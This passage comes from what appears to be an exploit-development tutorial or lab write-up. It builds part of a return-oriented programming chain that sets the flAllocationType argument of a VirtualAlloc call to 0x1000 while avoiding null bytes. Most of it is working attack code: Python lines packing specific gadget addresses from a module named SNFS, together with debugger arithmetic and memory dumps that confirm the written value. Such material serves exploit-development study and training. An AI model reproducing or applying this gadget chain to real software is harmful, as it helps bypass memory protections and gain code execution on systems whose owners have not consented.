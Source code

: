 flAllocationType

Should be set to `0x1000`. We won’t be able to use negation. We will use arithmetic again e.g. `0x80808080` - `0x1000` which will result in `0x7f7f8f80` which is null bye free then add the two together. We use various of our previous gadgets so this goes much quicker.

- We align `EAX` to point to our next address
- We make a copy of our `EAX` register which holds our `flAllocationType` address in `EBP`
- Pop `0x80808080` into `EAX` and pop `0x7f7f8f80` into `ECX`
- We then add `ECX` to `EAX` and copy the `EAX` result to `ECX`
- Finally we add a valid address into `EAX` so we can complete the next gadget
- The next gadget restores `EBP` back into `EAX`
- Our final gadget writes the value of `ECX` into the memory location pointed to in `EAX`

```python
0:077> ? 1000 - 80808080
Evaluate expression: -2155901056 = ffffffff`7f7f8f80
0:077> ? 80808080 + 7f7f8f80
Evaluate expression: 4294971392 = 00000001`00001000

#flAllocationType
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;

rop += pack("<L", (0x50218139)) # push eax ; pop ebp ; ret  ; 

rop += pack("<L", (0x10014429)) # pop eax ; ret  ;
rop += pack("<L", (0x80808080)) # first value to be added

rop += pack("<L", (0x10022a64)) # pop ecx ; ret  ;
rop += pack("<L", (0x7f7f8f80)) # second value to be added

rop += pack("<L", (0x10012ef4)) # add eax, ecx ; pop esi ; ret  ;
rop += pack("<L", (0x42424242)) # pop esi

rop += pack("<L", (0x502162b5)) # push eax ; and al, 0x59 ; pop ecx ; ret  ; 

#EAX will need valid memory address for the next gadget so we just add the virtualloc address
rop += pack("<L", (0x5021376f)) # pop eax ; ret  ;
rop += pack("<L", (0x100252E0)) # VirtualAlloc Address

#restore eax from ebp
rop += pack("<L", (0x10019c61)) # push ebp ; add edx, dword [eax] ; pop eax ; ret

rop += pack("<L", (0x1001526c)) # mov dword [eax], ecx ; ret  ;
```

We confirm that everything is working and move to the next argument.

```python
0:001> dds eax  L4
019de300  00001000
019de304  51515151
019de308  019de30c
019de30c  10012394 SNFS!_flush+0x57
```

